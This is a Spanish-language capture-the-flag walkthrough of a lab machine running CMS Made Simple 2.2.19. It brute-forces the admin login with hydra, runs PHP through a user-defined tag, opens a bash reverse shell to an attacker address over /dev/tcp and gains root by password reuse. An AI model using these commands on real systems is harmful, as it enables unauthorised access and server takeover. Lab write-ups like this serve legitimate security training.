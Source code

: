 Empezamos la maquina Dificil

![image](https://github.com/user-attachments/assets/71b619b0-2b37-412e-83a7-83b78f38fe80)

nmap: 22,80

---
entramos a la pagina principal y no hay mucho

![image](https://github.com/user-attachments/assets/e7c0645d-1ef4-4150-94ae-581a881de90a)

 nos vamos al código fuente y dice al final:
 
![image](https://github.com/user-attachments/assets/4e554fc6-666b-408a-8609-1b41c78ea9a7)

entramos:
> http://172.17.0.2/cmsms/
> 
![image](https://github.com/user-attachments/assets/e690e84e-f33d-4b2a-9c3c-53e1b49b5e6c)

buscando y haciendo Fuerza bruta de directorios, no encontraba mucho, pero me entro la curiosidad por esto:

![image](https://github.com/user-attachments/assets/77cc8607-d8e3-4ae9-b77f-5e8c4a8833a5)

Esta en PHP así que probablemente tiene un "login.php" y al final di con esto
> http://172.17.0.2/cmsms/admin/login.php

![image](https://github.com/user-attachments/assets/6b2308bf-3725-4455-b601-cbfa0091862f)

que nos lleva al login

si capturo con burpsuite el login que ya tiene por defecto un usuario y contraseña que dicen que es incorrecto, da esto:
> username=admin&password=christelle&loginsubmit=Submit

![image](https://github.com/user-attachments/assets/7d840e91-62f4-4ccd-ae4e-0d7931073828)

Que realmente no nos dice mucho. 

hacemos un ataque de fuerza bruta:

    - hydra -l admin -P /usr/share/wordlists/rockyou.txt  "http-post-form://172.17.0.2/cmsms/admin/login.php:username=^USER^&password=^PASS^&loginsubmit=Submit:User name or password incorrect"  

![image](https://github.com/user-attachments/assets/6d2f3c8e-5ace-4a65-a55d-efcfe4078650)


y nos da la contraseña "chocolate" para admin
probamos en el panel de login

![image](https://github.com/user-attachments/assets/386e9cb0-5a71-4b1d-812d-dc6a0972ad2f)

ya estamos dentro el panel, vemos una versión antigua entonces buscamos las vulnerabilidades conocidas para la versión 2.2.19 de CMS Made Simple. las cuales encontré con esta explicación 

> |[CVE-2024-27625](https://translate.google.com/website?sl=en&tl=es&hl=es&client=srp&u=https://www.cve.org/CVERecord?id%3DCVE-2024-27625)|La versión 2.2.19 de CMS Made Simple es vulnerable a ataques de secuencias de comandos entre sitios (XSS). Esta vulnerabilidad reside en el módulo Administrador de archivos del panel de administración. En concreto, el problema surge debido a una limpieza inadecuada de la entrada del usuario en el campo "Nuevo directorio".|
  [CVE-2024-27623](https://translate.google.com/website?sl=en&tl=es&hl=es&client=srp&u=https://www.cve.org/CVERecord?id%3DCVE-2024-27623)|La versión 2.2.19 de CMS Made Simple es vulnerable a la inyección de plantillas del lado del servidor (SSTI). La vulnerabilidad existe en el Administrador de diseño, en particular al editar las rutas de navegación.|

aquí la pagina de la explicación sobre la vulnerabilidad: https://cve-mitre-org.translate.goog/cgi-bin/cvekey.cgi?keyword=cms+made+simple&_x_tr_sl=en&_x_tr_tl=es&_x_tr_hl=es&_x_tr_pto=tc


nos vamos a: 
> extensiones > user defined tags > add defined tags > le colocamos un nombre y pruebo su vulnerabilidad 

![image](https://github.com/user-attachments/assets/002a7c04-f680-4f37-b1f4-3b5d3a345efe)


en code colocamos:

    - <?php echo system('id'); ?>

veremos que queda guardado y entramos al "prueba" que creamos:

guardamos y colocamos "run" nos mostrara este mensaje:

![image](https://github.com/user-attachments/assets/cb6c9261-d0ae-4ffb-b8ba-2aeeda6aa241)


probamos si la vulnerabilidad que encontramos esta funcionando:

![image](https://github.com/user-attachments/assets/2a61ceba-4310-4ae6-9f0d-09858b14c83a)

nos dará: 

>uid=33(www-data) gid=33(www-data) groups=33(www-data) uid=33(www-data) gid=33(www-data) groups=33(www-data)

o sea que la vulnerabilidad esta funcionando

entonces modificamos ese código dentro del paréntesis y colocamos así la reverse shell con nuestro terminal en escucha:

     - <?php echo system('bash -c "bash -i >& /dev/tcp/172.17.0.1/443 0>&1"'); ?>

![image](https://github.com/user-attachments/assets/dd901b2f-9972-4bb1-bc5c-1c9021d462c7)


entonces la lanzamos con el terminal en escucha y entramos.

![image](https://github.com/user-attachments/assets/e5f24e05-b124-4411-b877-6f4f132bdf00)

dentro no encontré nada y probé con la misma contraseña de admin del panel por curiosidad con el usuario  admin
ingresamos la contraseña "chocolate" al su root

![image](https://github.com/user-attachments/assets/01a572c6-ed60-483e-82a1-7e2637c3dc78)

y somos root! 


